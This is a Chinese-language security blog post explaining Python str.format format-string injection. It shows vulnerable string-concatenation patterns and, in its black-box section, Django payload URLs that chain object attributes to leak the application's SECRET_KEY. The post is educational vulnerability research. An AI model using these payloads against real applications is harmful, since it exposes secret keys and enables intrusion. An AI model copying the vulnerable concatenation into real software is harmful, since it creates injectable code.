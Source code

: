 Title:python格式化字符串漏洞实践
Date: 2018-01-22 10:20
Category: python安全
Tags: 漏洞实践,Python,格式化字符串漏洞
Slug: 
Authors: bit4woo
Summary: 

### 0x0、核心问题

如下面这个例子，从python2.6开始，就有了用format来格式化字符串的新特性，它可以通过{}来确定出字符串格式的位置和关键字参数，并且随时可以显式对数据项重新排序。此外，它甚至可以访问对象的属性和数据项——这是导致这里的安全问题的根本原因。

影响范围：Python 2.6及以后

```python
>>> print 'class of {0} is {0.__class__}'.format(42+1)
class of 43 is <type 'int'>
#可以看到，0.__class__获取到了输入对象（43）的类（int）。漏洞是建立在这个特性的基础之上的。
```

### 0x1、漏洞的必要条件

漏洞存在的必要条件是：可以控制字符串（一般是字符串拼接了用户的输入）

![insert_point](img/format_string_vuln/insert_point.png)

当然，要能正确利用，还需要保证控制的字符串语法的正确，即注入的对象名称必须和format参数传入的对象名称完全匹配。比如下面的例子：由于format传入的是"user=xxxx "，注入的字符串中，就必须是user.xxxx。

![对象正确](img/format_string_vuln/对象正确.png)



**实际代码中可能的字符串拼接方式有哪些呢？**

我能想到的：多次format  、利用加号的字符串拼接、利用%s的字符串拼接

```python
#多次format：  比如2次的情况，如果第一次被控制，将发生该漏洞
template = 'Hello {user}'
template = template.format(user ="{user.__class__}")#用户注入发生在这里
print template
print template.format(user="bit4")
```

![多次format](img/format_string_vuln/多次format.png)



```python
#用加号的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: ' + email
print template
print template.format(user="bit4")
```

![+字符串拼接](img/format_string_vuln/+字符串拼接.png)



```python
#利用%s的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: %s' %email
print template
print template.format(user="bit4")
```

![%s字符串拼接](img/format_string_vuln/s字符串拼接.png)



### 0x2、黑盒的思路

如果能看到代码，知道语句是怎么写的，当然容易构造出payload来注入到格式化字符串中，那么黑盒的时候，怎么办呢？phithon的文章中，给出了django中的一个例子。

```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))

然后给出的payload如下：
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.__groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

关于在黑盒的时候，如何成功挖掘该类漏洞，有几个关键问题：

Q：如何识别注入点？

A：如果识别不了，那就遍历所有可能的参数请求，



Q：如何找到一个可用的当前对象？

A：这一块好像没有很好的自动化方法，只有通过web的具体功能来猜测判断，比如，如果当前页面是用户登录后的欢迎页面，那么它很可能包含用户user对象，如果是展示展示一列订单，那么它很可能包含order对象.....等等



Q：是否存在一个通用对象呢？也就是每个请求中必然包含的对象是什么？或者一些框架或者web中常用的对象？

A：request对象应该算一个，但是实际的编程中几乎不会直接使用request对象。

​	至于有什么常用对象，目前回答不了...



Q：如何找到对象的可用属性？如何找到某个对象到系统敏感信息的对象属性链呢？

A：dir()函数可以查看某个对象的可用属性。

​	关于属性链，具体怎么查找还不清楚，但大致方向是，先通过当前属性，到达model等访问更广的全局属性（对象），从而再获取具体的属性。



参考：

https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html

http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/